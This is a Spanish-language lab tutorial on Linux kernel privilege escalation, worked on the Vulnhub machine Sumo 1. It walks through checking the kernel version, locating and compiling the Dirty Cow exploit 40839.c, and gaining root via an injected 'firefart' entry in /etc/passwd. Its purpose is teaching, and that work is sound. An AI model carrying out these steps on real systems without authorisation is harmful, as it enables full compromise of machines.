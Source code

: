 # Explotación del Kernel

Tags: #Linux #Kernel  #Escalada #Root #Privilegios 

El **Kernel** es la parte central del sistema operativo Linux, que se encarga de administrar los recursos del sistema, como la memoria, los procesos, los archivos y los dispositivos. Debido a su papel crítico en el sistema, cualquier vulnerabilidad en el Kernel puede tener graves consecuencias para la seguridad del sistema.

En versiones antiguas del Kernel de Linux, se han descubierto vulnerabilidades que pueden ser explotadas para permitir a los atacantes obtener acceso de superusuario (**root**) en el sistema.

La elevación de privilegios se refiere a la técnica utilizada por los atacantes para obtener permisos elevados en el sistema, como superusuario (**root**), cuando solo tienen permisos limitados. Por ejemplo, un usuario con permisos limitados en el sistema podría utilizar una vulnerabilidad en el Kernel para obtener acceso de superusuario y, posteriormente, comprometer el sistema.

Las vulnerabilidades del Kernel pueden ser explotadas de varias maneras. Por ejemplo, un atacante podría aprovechar una vulnerabilidad en un controlador de dispositivo para obtener acceso al Kernel y realizar operaciones maliciosas. Otra forma común en que se explotan las vulnerabilidades del Kernel es mediante el uso de técnicas de desbordamiento de búfer, que permiten a los atacantes escribir código malicioso en áreas de memoria reservadas para el Kernel.

Para mitigar el riesgo de vulnerabilidades del Kernel, es importante mantener actualizado el sistema operativo y aplicar parches de seguridad tan pronto como estén disponibles.

A continuación, se os comparte el enlace a la máquina Sumo 1 de Vulnhub, la cual estaremos desplegando en esta clase para mostrar un ejemplo práctico de explotación del Kernel:

- **Máquina Sumo 1**: [https://www.vulnhub.com/entry/sumo-1,480/](https://www.vulnhub.com/entry/sumo-1,480/)


## Kernel

* [Linux-Exploit-Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)   Este exploit esta enfocado a la explotación del Kernel.

```bash
❯ lsb_release -a                                               
❯ uname -a                                       # Para ver la Version e informacion del Kernel 

# 3.2.0-23 Version antigua de Kernel (Explotable)
```

```bash 
❯ searchsploit kernel 3.2                        # Nos muestra si la version del Kernel se puede explotar, ademas de salir Dirty Cow
❯ searchsploit dirty cow                         # Buscaremos la que sobre-escribe el /etc/passwd y es un script en 'c' y se acontece una 'race condition privilege escalation'
```

Nos transferimos el script en c
```bash 
❯ searchsploit -m linux/local/40839.c            # Movemos el exploit a nuestra maquina de atacante 
# El binario lo debemos de compilar en la maquina victima, pero si no nos deja lo tendremos que hacer en la nuestra y despues pasar el binario a la maquina victima 
❯ gcc -pthread 40839.c -o dirty -lcrypt          # Para compilar el binario en la maquina victima, dirty = nombre del archivo final ejecutable
```

Lo que hace este exploit es que por medio de la vulnerabilidad de 'race condition' crea un nuevo usuario hasta arriba del '/etc/passwd' y sustituye root por otro usuario llamado 'firefart' y la passwd es la que tu le indicas al script al momento de ejecutarlo.

```python 
❯ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

Nota: A veces tarda un poco en que te regrese la consola. 

```python 
❯ cat /etc/passwd

firefart:fiWV.l3JFnVCk:0:0:pwned:/root:/bin/bash
/sbin:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

```bash 
❯ su firefart                     # Cambiamos de usuario y le colocamos la passwd que colocamos en el script
❯ whoami                          # Nos muestra que somos el usuario firefart
❯ id                              # Miramos que el id = 0, o sea que somos root 
```

Otras formas de explotar el Kernel 
```bash 
❯ searchsploit kernel privilege escalation     # Nos mostrara scripts para poder explotar el kernel
```